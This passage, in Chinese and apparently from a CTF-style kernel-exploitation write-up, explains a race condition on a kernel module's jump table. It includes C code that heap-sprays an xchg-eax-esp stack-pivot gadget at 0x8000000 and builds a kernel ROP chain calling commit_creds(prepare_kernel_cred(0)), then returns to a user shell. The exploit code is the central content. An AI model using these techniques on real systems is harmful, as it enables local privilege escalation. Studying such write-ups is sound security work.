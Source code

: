 ```python
mov     rax, ds:jump_table[rax*8]
jmp     rax

```
可以知道的是，我们可以利用条件竞争控制rax的值，跳到一个指针处。那我们跳到哪里？我们并不能泄露模块加载地址，也并不能控制内核空间中的内容。

那我们就只能抱期望于堆喷射，使得`jump_table+(rax*8)`座落于用户空间(未开启smap，可访问用户态数据)。由于内核模块加载的最低地址是0xffffffffc0000000，通常是基于这个地址有最多0x1000000大小的浮动

如果我们把用户空间设定为`0xffffffffc0000000 + （0x8000000+0x200）*8 == 0x1000`溢出后最小的一个页面地址，从0x1000地址开始mmap内存，页面大小（最大浮动大小）为0x1000000，那就与exp程序的加载基地址0x400000重合了，不利于后期布置堆喷数据。（可以编译exp时重定位binary—-Wl,--section-start=.note.gnu.build-id=0x40000158）

换一种，我们将`jump_table+(rax*8)`喷射到大于0x400000的地址，比如`0xffffffffc0000000 + (0x8000000+0x1000000)*8 = 0x8000000`这个地址，在0x8000000映射0x1000000大小的空间，那就可以完美解决上面覆盖exp程序空间的问题。

于是我们在0x8000000地址放入`0x1000000/8`个内核gad指令地址。我们选什么指令比较合适呢？我们只对RAX寄存器可控，很容易想到栈迁移，但是内核栈我们并不能控制，就想到控制用户态的栈，找到这么一条指令`xchg eax, esp`，将RAX寄存器的低4byte切换进esp寄存器，同时rsp扩展位的高32位清0，这样就切换到用户态的栈。

代码如下：

```c
    char *pivot_addr=mmap((void*)0x8000000, 0x1000000, PROT_READ|PROT_WRITE,
        MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1,0);
    unsigned long *spray_addr= (unsigned long *)pivot_addr;
    for (int i=0; i<0x1000000/8; i++)
        spray_addr[i]=xchg_eax_esp_ret;

```

所以我们只需要在用户空间`xchg_eax_esp_ret & 0xfffff000`分配一段空间，并在`xchg_eax_esp_ret & 0xffffffff`处存放内核ROP链，就可以通过ROP提权。代码如下：

```c
    unsigned long mmap_base = xchg_eax_esp_ret & 0xfffff000;
    unsigned long *rop_base = (unsigned long*)(xchg_eax_esp_ret & 0xffffffff);
    char *ropchain = mmap((void *)mmap_base, 0x2000, PROT_READ|PROT_WRITE,
        MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1,0);
    int i=0;

    // commit_creds(prepare_kernel_cred(0))
    rop_base[i++] = pop_rdi_ret;
    rop_base[i++] = 0;
    rop_base[i++] = prepare_kernel_cred;
    rop_base[i++] = pop_rsi_ret;          
    rop_base[i++] = -1;
    rop_base[i++] = mov_rdi_rax_p_ret;
    rop_base[i++] = 0;
    rop_base[i++] = commit_creds;
    // xchg_CR3_sysret
    rop_base[i++] = pop_rcx;
    rop_base[i++] = &shell;
    rop_base[i++] = pop_r11;
    rop_base[i++] = user_rflags;
    rop_base[i++] = 0;
    rop_base[i++] = xchg_CR3_sysret;
    rop_base[i++] = 0;
    rop_base[i++] = 0;
    rop_base[i++] = user_sp;

```
